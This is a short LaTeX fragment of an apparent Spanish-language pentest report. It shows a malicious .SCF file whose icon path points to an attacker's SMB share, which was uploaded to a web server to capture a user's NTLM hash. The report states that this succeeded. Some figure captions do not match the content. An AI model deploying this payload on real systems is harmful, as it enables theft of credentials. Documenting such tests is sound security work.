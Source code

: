 \documentclass[a4paper]{article} %
\begin{document}
	\begin{lstlisting}{language=Shell, caption=Script Malicioso .SCF}{BitXorMatrix.m}
		[Shell]
		Command=2
		IconFile=\\192.15.X.X\smbFolder\pentestlab.ico
		[Taskbar]
		Command=ToggleDesktop
	\end{lstlisting}

	Se carga el archivo malicioso en el sitio web:
	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \caption{Se usa cualquier impresora}
        \end{figure}

	\clearpage

	\justifying

	E aquí el resultado obtenido:

	\begin{figure}[h]
                \centering
                \setlength{\fboxrule}{0.8pt}
                \caption{Se usa cualquier impresora}
        \end{figure}

	\justifying

	Se obtuvo un usuario y un hash.

	

	De esta forma, queda demostrado que el servidor servidor web, es vulnerable a archivos malisiosos .SCF y el servidor SMB tambien resulto ser vulnerable al permitir la autenticación.
\end{document}
